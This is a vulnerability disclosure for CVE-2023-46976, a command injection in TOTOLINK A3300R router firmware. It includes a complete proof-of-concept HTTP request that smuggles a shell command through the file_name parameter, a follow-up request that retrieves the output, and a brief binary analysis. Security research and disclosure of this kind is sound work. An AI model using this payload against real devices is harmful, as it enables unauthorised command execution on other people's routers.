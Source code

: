 # TOTOLINK A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Product: TOTOLINK A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![7def14f99b5767743ca6c793879d983b](uploads/1.png)

## Vulnerability Description

The `file_name` parameter of `UploadFirmwareFile` in `cstecgi.cgi` is controllable, and there is no verification of the input `file_name` parameter. When any error is triggered, the `file_name` parameter will be spliced into the rm- rf command and executed, which will eventually lead to command injection.

### POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 113
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/advance/config.html?time=1698345756457
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"file_name": "1|ls>/web/cmd.txt","content_length":"100","topicurl":"UploadFirmwareFile","token":"1234"}
```

injection the command "ls>/web/cmd.txt"

![image-20231027034846071](uploads/2.png)

check the result

```http
GET /cmd.txt HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
If-Modified-Since: Thu, 26 Oct 2023 19:47:12 GMT
Connection: close
```

![image-20231027035255794](uploads/3.png)

## Analyse

`sub_413700`will handle the `UploadFirmwareFile` request, this function firstly gets `file_name` value from the request body, and then pass to `CsteSystem` function.

![0dba829c8020e7e171ccee3b16a37031](uploads/4.png)

![4ae866f8e0b4170c9c30978b16800ec7](uploads/5.png)

`CsteSystem` wraps the command and then passes it to execv to execute the command.

![ana3](uploads/6.jpg)

## CVE-2023-46976
